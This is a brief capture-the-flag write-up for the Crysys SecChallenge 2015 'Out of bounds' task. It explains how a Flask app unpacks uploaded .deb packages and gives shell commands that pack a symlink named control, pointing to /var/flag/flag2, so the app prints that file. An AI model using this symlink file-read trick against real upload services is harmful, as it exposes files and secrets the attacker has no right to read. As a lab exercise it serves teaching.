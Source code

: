 Ubuntu Package Info Challenge
=============================

> Writeup for Crysys SecChallenge 2015. The original challenges are available on avatao.com.

## Out of bounds (175 points)

The source of a python Flask webapp was given, which can show various infos about .deb packets. The .deb packages are *ar* archives; here is a breif summary of its basic contents:
 - *control.tar.gz*
     + *control*: description of the package, dependencies, etc...
     + *md5sums*: md5 sums of the installed files
 - *data.tar.gz*
     + */...*: the actual file structure to be install
 - *debian-binary*: the debian package format (nowadays usually "2.0")

```bash
cd /tmp/packageStore/ && ar vx package.deb && tar -xzvf control.tar.gz
```
The webapp uploads the selected package to a tmp directory, then uncompress it. Form the uncompressed package it selects the *control.tar.gz*, uncompress it as well, and open the *control* file.

It is clear, that the target is `/var/flag/flag2`, somehow we should read this.

The trick: instead of a 'normal' file use a link which points to `/var/flag/flag2`, thus the flag will be printed!

```bash
ln -s /var/flag/flag2 control
tar -czf control.tar.gz control
ar q flag.deb control.tar.gz
```

And just upload the `flag.deb` binary to get the flag!